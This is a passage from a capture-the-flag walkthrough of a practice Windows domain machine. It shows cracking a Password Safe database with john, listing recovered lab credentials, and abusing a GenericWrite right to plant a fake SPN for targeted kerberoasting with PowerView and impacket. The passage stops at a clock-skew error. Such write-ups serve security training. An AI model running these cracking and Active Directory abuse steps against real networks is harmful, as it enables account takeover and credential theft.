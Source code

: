 ![admin](/assets/images/administrator/Pasted image 20250310095119.png)

#### Cracking the psafe3 file

When trying to open the database I was prompted for a password. We can try to crack this password by using john's built in function `pwsafe2john`. 

```
pwsafe2john Backup.psafe3 > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
tekieromucho     (Backu)  
```

After getting the database password I was able to open the database and read it with this [app](https://github.com/pwsafe/pwsafe). I know get the credentials of three new users. Most importantly I get Emily's credentials. To recap we have the following credentials:

```
Olivia:ichliebedich
michael:Password123!
Benjamin:Password123!
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

## Privilege Escalation

Since Emily was also a user on the box and this user also has the `PsRemote` right assigned we can login with `evil-winrm`. We already enumerated how to escalate our privileges we can clearly see the steps we can take to compromise the server with the following bloodhound graph.

![admin](/assets/images/administrator/Pasted image 20250311000031.png)

#### Exploiting GenericWrite

To exploit Emily's `GenericWrite` privilege over the Ethan user we can do the following. Using `PowerView` we can create a fake **SPN** for Ethan. This service name can be anything we just need to create it. The reason for this is that now Ethan will become a kerberoastable account and we will be able to get his hash. The following command is used to write a fake **SPN**. 

```
Set-DomainObject -Identity ethan -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

I tried **kerberoasting** from the Windows machine but I kept getting authentication errors probably due to Kerberos's [double hop problem](https://0xss0rz.gitbook.io/0xss0rz/pentest/internal-pentest/kerberos-double-hop-problem). This is why I run the attack through my Linux machine. 

```
impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -request
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name   MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------  -----  --------  --------------------------  --------------------------  ----------
nonexistent/BLAHBLAH  ethan            2024-10-12 22:52:14.117811  2025-03-10 17:37:12.402693             



[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
